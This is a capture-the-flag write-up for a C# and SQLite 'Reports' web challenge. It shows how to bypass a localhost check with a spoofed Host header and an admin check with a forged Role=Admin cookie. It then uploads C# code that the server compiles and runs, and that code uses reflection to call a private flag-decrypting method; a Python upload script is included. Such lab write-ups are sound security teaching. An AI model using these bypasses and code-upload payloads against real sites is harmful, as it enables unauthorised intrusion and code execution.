



# Reports



This challenge is a C# based webpage which uses SQLite for datastorage. The user can choose a report from a dropdown, and the selected report will be executed on the server and displayed to the user. The flag is encrypted and located in a flag.txt file on disk.

## Initial recon

From reading the sourcecode we can see in DataController.cs there is an endpoint at /api/Data which should let us upload a new report. However, it checks that the report is uploaded from localhost, is uploaded by an admin, and doesn't contain "System.IO" which can be used to read files from the disk.

In SecurityController.cs we see an (too) obvious SQL injection vulnerability in the login method, however this was just a decoy. If we look further we see that upon successfull login the server tells the client to set a browser cookie called "Role" to the value "Admin".

In the SQLite database we see a table called Reports which has a field called "code", which contains C# sourcecode. It seems like this code is compiled and executed whenever the selected report is set to run.


Also, there is a class in the C# project called FlagModel. It has a method, GetFlag, which does all of the heavy lifting when it comes to reading the flag.txt file and decrypting the content. However, the GetFlag method is marked as private.

Conclusion from initial recon is to bypass the security to upload a custom report which should leak the flag.

## Bypassing security

The first hinderance, that reports can only be uploaded from localhost and reports.ept.gg can be bypassed using the Host-header.

The second hinderance, that you have to have the Admin role, can be bypassed by just adding a cookie Role=Admin.

With this in place we can upload custom C# code using

```http
POST http://io.ept.gg:52137/api/Data
Host: reports.ept.gg:34177
Content-Type: application/json
Cookie: Role=Admin

{
    "report": "EvilReport",
    "id": "5",
    "name": "EvilReport",
    "code": "(put C# code here)"
}
```

## Uploading evil report

Next we need to upload C# code which lets us get the flag. One hinderance is that we cannot have "System.IO" in our sourcecode.

We wrote a C# class which creates an instance of the FlagModel class. However, since the GetFlag method is marked as private, we couldn't just call it directly. Instead we used C# Reflection to invoke the private method, which got the content from flag.txt and decrypted the flag for us.

The final solution consists of two files. `payload.cs` which is just a normally formatted C# file, and `solve.py` which is a Python script which will upload the C# code to the server.

payload.cs

```C#
using System;
using WebSite.Models;
using System.Reflection;

namespace WebSite.Models
{
    class ReportTableModelData
    {
        public ReportDataModel CreateModel(string conection)
        {
            var data = new ReportDataModel();

            Type type = typeof(FlagModel);
            var flagmodel = Activator.CreateInstance(type);
            MethodInfo method = type.GetMethod("GetFlag", BindingFlags.NonPublic | BindingFlags.Instance);
            var flag = (string) method.Invoke(flagmodel, null);
            
            data.Title = flag;
            return data;
        }
    }
}
```

solve.py
```py
import requests

# Read file
f = open(r"payload.cs", "r")
code = f.read().replace("\\r\\n", "\n")

# Send request
url = "http://io.ept.gg:52137/api/Data"
headers = {
    "Host": "reports.ept.gg:34177",
    "Content-Type": "application/json",
    "Cookie": "Role=Admin"
}
body = {
    "report": "EvilReport",
    "id": "6",
    "name": "EvilReport",
    "code": code
}

response = requests.post(url, json=body, headers=headers)
print(response.status_code)
```

## Flag

After uploading our evil report we can execute it and see the flag like this


